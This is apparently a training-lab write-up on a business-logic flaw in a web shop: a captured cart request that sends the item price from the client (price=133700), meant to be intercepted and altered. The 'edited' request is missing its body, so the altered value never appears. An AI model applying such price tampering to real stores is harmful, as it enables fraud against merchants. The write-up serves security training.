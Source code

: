 # Business logic vulnerabilities

### Lab: Excessive trust in client-side controls

Task: Buy jacket with only $100 in your account

Solution: Intercept and edit request

Original Burp Request

```
POST /cart HTTP/1.1
Host: 0af200d8035192bfc08caf6400de00c9.web-security-academy.net
Cookie: session=fFbRXh3i0mombxzLn4NckWQkSaFPa6N5
Content-Length: 49
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0af200d8035192bfc08caf6400de00c9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af200d8035192bfc08caf6400de00c9.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

productId=1&redir=PRODUCT&quantity=1&price=133700
```

Edited Burp Request

```
POST /cart HTTP/1.1
Host: 0af200d8035192bfc08caf6400de00c9.web-security-academy.net
Cookie: session=fFbRXh3i0mombxzLn4NckWQkSaFPa6N5
Content-Length: 49
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0af200d8035192bfc08caf6400de00c9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af200d8035192bfc08caf6400de00c9.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```